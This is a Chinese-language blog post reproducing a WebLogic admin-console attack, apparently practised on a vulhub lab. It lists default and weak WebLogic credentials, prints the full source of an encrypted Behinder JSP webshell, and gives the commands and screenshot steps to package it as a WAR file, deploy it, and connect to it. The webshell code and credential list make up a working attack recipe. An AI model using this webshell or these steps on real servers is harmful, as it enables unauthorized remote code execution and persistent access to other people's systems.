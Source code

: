 ```yaml
---
title: weblogic后台getshell
date: 2020-07-15 20:53:14
categories: 漏洞复现
tags: Weblogic
---
```


#### 复现过程

1.登陆

`http://IP:端口/console`

![](http://qn.laohuan.xin/2020-07-15_17-28-53.png)



要在后台getshell，必须得先登录，如何获取到登陆凭证，弱口令、爆破，或者其他社工方式。

<!--more-->

weblogic常见口令

| system      | password    |
| ----------- | ----------- |
| weblogic    | weblogic    |
| guest       | guest       |
| portaladmin | portaladmin |
| admin       | security    |
| joe         | password    |
| mary        | password    |
| system      | security    |
| wlcsystem   | wlcsystem   |
| wlcsystem   | sipisystem  |

2.制作war包

新建shell.jsp文件，内容为冰蝎webshell

```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends Class
Loader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b
.length);}}%><%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).rep
lace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.g
etInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES")
);new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decode
Buffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>
```

压缩webshell

`zip shell.zip shell.jsp`

改变后缀

`mv shell.zip shell.war`

3.部署

![](http://qn.laohuan.xin/2020-07-15_17-12-27.png)

3.上载文件

![](http://qn.laohuan.xin/2020-07-15_17-13-09.png)

4.选择我们做好的shell.war

![](http://qn.laohuan.xin/2020-07-15_17-13-28.png)

5.下一步

![](http://qn.laohuan.xin/2020-07-15_17-14-20.png)

6.下一步，安装为应用程序

![](http://qn.laohuan.xin/2020-07-15_17-14-46.png)

7.下一步

![](http://qn.laohuan.xin/2020-07-15_17-15-16.png)

8.点击完成

![](http://qn.laohuan.xin/2020-07-15_17-15-40.png)

9.点击保存，显示设置成功

![](http://qn.laohuan.xin/2020-07-15_17-18-45.png)

10.当再次点击菜单栏的[部署]时，已经可以看到我们部署的应用程序

![](http://qn.laohuan.xin/2020-07-15_17-19-10.png)

11.使用冰蝎连接

`http://IP:端口/shell/shell.jsp`

![](http://qn.laohuan.xin/2020-07-15_17-10-22.png)

#### 参考链接

<http://github.com/vulhub/vulhub/tree/master/weblogic/weak_password/>

<http://www.cnblogs.com/bmjoker/p/9822886.html/>

<http://www.pianshen.com/article/9302224952//>